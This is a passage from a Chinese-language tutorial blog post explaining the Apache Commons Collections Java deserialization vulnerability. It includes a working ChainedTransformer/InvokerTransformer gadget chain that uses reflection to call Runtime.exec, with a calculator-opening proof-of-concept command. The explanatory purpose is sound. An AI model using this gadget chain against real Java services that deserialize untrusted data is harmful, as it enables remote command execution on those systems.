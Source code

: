 至此，我们知道可以利用InvokerTransformer来调用外部命令了，那是不是只需要把一个我们自定义的InvokerTransformer序列化成字符串，然后再反序列化，接口实现远程命令执行：

![][5]

先将transformer对象序列化到文件中，再从文件中读取出来，并且执行其transform方法，就实现了攻击。

#### 你以为这就完了？

但是，如果事情只有这么简单的话，那这个漏洞应该早就被发现了。想要真的实现攻击，那么还有几件事要做。

因为，`newTransformer.transform(Runtime.getRuntime());`这样的代码，不会有人真的在代码中写的。

如果没有了这行代码，还能实现执行外部命令么？

这就要利用到Commons Collections中提供了另一个工具那就是ChainedTransformer，这个类是Transformer的实现类。

**ChainedTransformer类提供了一个transform方法，他的功能遍历他的iTransformers数组，然后依次调用其transform方法，并且每次都返回一个对象，并且这个对象可以作为下一次调用的参数。**

![][6]

那么，我们可以利用这个特性，来自己实现和`transformer.transform(Runtime.getRuntime());`同样的功能：

     Transformer[] transformers = new Transformer[] {
        //通过内置的ConstantTransformer来获取Runtime类
        new ConstantTransformer(Runtime.class),
        //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
        new InvokerTransformer("getMethod",
            new Class[] {String.class, Class[].class },
            new Object[] {"getRuntime", new Class[0] }),
        //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
        new InvokerTransformer("invoke",
            new Class[] {Object.class, Object[].class },
            new Object[] {null, new Object[0] }),
        //反射调用exec方法
        new InvokerTransformer("exec",
            new Class[] {String.class },
            new Object[] {"open /Applications/Calculator.app"})
    };
    
    Transformer transformerChain = new ChainedTransformer(transformers);
    

在拿到一个transformerChain之后，直接调用他的transform方法，传入任何参数都可以，执行之后，也可以实现打开本地计算器程序的功能：

![][7]

那么，结合序列化，现在的攻击更加进了一步，不再需要传入`newTransformer.transform(Runtime.getRuntime());`这样的代码了，只要代码中有 `transformer.transform()`方法的调用即可，无论里面是什么参数：

![][8]

#### 攻击者不会满足于此

但是，一般也不会有程序员会在代码中写这样的代码。

那么，攻击手段就需要更进一步，真正做到"不需要程序员配合"。


 [1]: https://www.hollischuang.com/archives/5177
 [2]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944480560097.jpg
 [3]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944485613275.jpg
 [4]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944494651843.jpg
 [5]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944505042521.jpg
 [6]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944497629664.jpg
 [7]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944539116926.jpg
 [8]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944538564178.jpg
 [9]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944509076736.jpg
 [10]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537562975.jpg
 [11]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944519240647.jpg
 [12]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537014741.jpg
 [13]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944526874284.jpg
 [14]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525715616.jpg
 [15]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525999226.jpg